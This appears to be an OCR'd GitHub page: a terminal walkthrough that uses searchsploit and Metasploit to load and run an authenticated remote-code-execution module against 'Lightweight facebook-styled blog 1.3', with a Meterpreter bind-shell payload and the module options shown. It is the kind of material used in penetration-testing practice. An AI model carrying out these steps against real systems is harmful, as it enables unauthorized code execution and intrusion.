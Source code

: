 # Shell-Payload

root@kali:~# searchsploit Lightweight
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Lightweight facebook-styled blog 1.3 - Remote Code Execution (RCE) (Authenticated) (Metasploit)                                                                                                          | php/webapps/50064.rb
Lightweight news portal (LNP) 1.0b - Multiple Vulnerabilities                                                                                                                                            | php/webapps/5873.txt
Mollensoft Lightweight FTP Server 3.6 - Remote Buffer Overflow                                                                                                                                           | windows/dos/24150.pl
Mollensoft Lightweight FTP Server 3.6 - Remote Denial of Service                                                                                                                                         | windows/dos/24142.pl
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
root@kali:
root@kali:~# locate 50064.rb
/usr/share/exploitdb/exploits/php/webapps/50064.rb

root@kali:~# cd /root/.msf4/
root@kali:~/.msf4# ls
bootsnap_cache  data  history  ldap_queries.yaml  local  logos  logs  loot  meterpreter_history  modules  plugins  store
root@kali:~/.msf4# cd modules/
root@kali:~/.msf4/modules# ls
root@kali:~/.msf4/modules# mkdir exploits
root@kali:~/.msf4/modules# ls
exploits
root@kali:~/.msf4/modules# cd exploits/
root@kali:~/.msf4/modules/exploits# ls
root@kali:~/.msf4/modules/exploits# mkdir php
root@kali:~/.msf4/modules/exploits# cd php/
root@kali:~/.msf4/modules/exploits/php# ls
root@kali:~/.msf4/modules/exploits/php# pwd
/root/.msf4/modules/exploits/php

root@kali:~# cp /usr/share/exploitdb/exploits/php/webapps/50064.rb /root/.msf4/modules/exploits/php

msf6 > use exploit/php/50064

maybe we need this to do in msfconsole:

msf6 > reload_all

we can search to know the right path:

msf6 > search 50064

Matching Modules
================

   #  Name               Disclosure Date  Rank       Check  Description
   -  ----               ---------------  ----       -----  -----------
   0  exploit/php/50064  2018-12-19       excellent  No     Lightweight facebook-styled blog authenticated remote code execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/php/50064


msf6 > use exploit/php/50064 
[*] Using configured payload php/meterpreter/bind_tcp
msf6 exploit(php/50064) > show options 

Module options (exploit/php/50064):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   demo             yes       Blog password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI of the arkei gate
   USERNAME   demo             yes       Blog username
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/bind_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  4444             yes       The listen port
   RHOST                   no        The target address


Exploit target:

   Id  Name
   --  ----
   0   PHP payload



View the full module info with the info, or info -d command.

msf6 exploit(php/50064) > 


I filled out the required and exploited.
